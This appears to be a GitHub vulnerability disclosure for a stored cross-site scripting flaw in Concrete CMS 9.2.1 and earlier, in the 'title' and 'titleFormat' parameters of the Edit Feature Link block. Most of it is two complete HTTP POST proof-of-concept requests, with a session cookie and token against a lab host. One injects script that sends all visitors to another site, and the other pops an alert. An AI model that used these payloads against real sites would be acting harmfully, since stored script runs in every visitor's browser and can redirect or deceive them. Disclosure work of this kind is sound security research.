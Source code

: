 BUG_Author:
LJWIIE

Affected version:
Concrete CMS versions 9.2.1 and earlier

Vendor:
https://www.concretecms.org/

Software:

https://www.concretecms.org/download

https://github.com/concretecms/concretecms/releases/tag/9.2.1

Vulnerability File:
index.php/ccm/system/dialogs/block/edit.php, function submit()

Description:

In Concrete CMS versions 9.2.1 and earlier, authenticated users can execute Stored Cross-Site Scripting (XSS) attacks by combining the "titleFormat" and "title" parameters within the "Edit Feature Link" function. This combination may lead to harmful actions such as redirects, unwanted ads, and executing malicious HTML code, posing risks to visitors and the site's integrity.

Status: Medium

POST parameter 'titleFormat' and 'title' together contain a Stored Cross-Site Scripting (XSS) vulnerability.

[**Redirect to Google official website**]Payload1:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695469065:5aa63bbe62ffcb4df09a6763873c46be&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1821
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoglzy1CW1rAJNDGp
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=ec85avj4ojkan1mrh5g6dhrn76; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="title"

window.onload = function() {window.location.href = 'https://www.google.com';};
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="titleFormat"

script
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>

------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryoglzy1CW1rAJNDGp--
```

![image](https://github.com/IIE-Safety/title_And_titleFormat/assets/65028436/926b6fa4-370b-4532-8b0b-45d3971c1fd1)

Once edited and saved, anyone visiting this page will be forced to visit the Google website. Below is a gif showing it.

![RedirectToGoogle](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/3d2ed4e1-abec-4053-8166-5bdf198de7bd)

[**Display alert window**]Payload2:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695469065:5aa63bbe62ffcb4df09a6763873c46be&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1821
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoglzy1CW1rAJNDGp
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=ec85avj4ojkan1mrh5g6dhrn76; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="title"

alert("You have been hacked!")
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="titleFormat"

script
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>

------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryoglzy1CW1rAJNDGp--
```

![image](https://github.com/IIE-Safety/title_And_titleFormat/assets/65028436/dacf7c66-9329-4593-8f9c-91bd9ca0a335)

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/aa0a61ad-c1c2-4903-8019-a1fa9a4f060c)

